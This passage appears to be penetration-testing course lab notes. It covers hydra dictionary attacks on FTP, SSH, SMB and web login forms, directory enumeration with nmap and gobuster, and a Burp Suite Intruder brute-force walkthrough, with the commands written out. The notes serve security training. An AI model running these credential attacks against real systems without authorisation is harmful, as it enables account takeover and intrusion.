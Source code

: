 ### Lab2-Task1: Detect Session Hijacking using Wireshark (Page 204)

- A high number of ARP requests indicate that a system is acting as a client for all IP addresses.

## Module 13: Hacking Web Servers

### Lab2-Task1: Crack FTP Credentials using a Dictionary Attack (Page 326)

- nmap -p 21 [IP]
- **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**

**Other**
- hydra -l <username> -P <full path to pass> 10.10.119.16 -t 4 ssh
- hydra -l <username> -P <full path to pass> 10.10.119.16 -t 4 smb
- hydra -l <username> -P <wordlist> 10.10.119.16 http-post-form "<path>:<login_credentials>:<invalid_response>"
  - `hydra -l bob -P <wordlist> 10.10.119.16 http-post-form "/Login:username=^USER^&pwd=^PASS^:Login Failed"``

## Module 14: Hacking Web Applications

### Lab1-Task5: Identify Web Server Directories using various tools (Page 359)

- **nmap -sV --script=http-enum [IP]**
  - Enumerate applications, directories, and files of the web server
- **gobuster dir -u [IP] -w [WORDLIST]**
  - Directory brute-forcing mode. Fast paced enumeration of hidden files and directories
  - ```gobuster dir -u [IP] -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt -q```
    - dir : directory listing
    - -u : host
    - -w : wordlists
    - -t : threads int / Number of concurrent threads (default 10)
    - -x : enumerate hidden files htm, php
    - -q : –quiet / Don’t print the banner and other noise

### Lab2-Task1: Perform a Brute-force Attack using Burp Suite

- Set proxy for browser: 127.0.0.1:8080
- Burpsuite
- Type random credentials
- Capture the request, right click->send to Intrucder
- Intruder->Positions
- Clear $
- Attack type: Cluster bomb
- Select account and password value, Add $
- Payloads: Load wordlist file for set 1 and set 2
- Start attack
- Filter by status and length that are different from the others. **filter status==302**
- Open the raw, get the credentials
- recover proxy settings
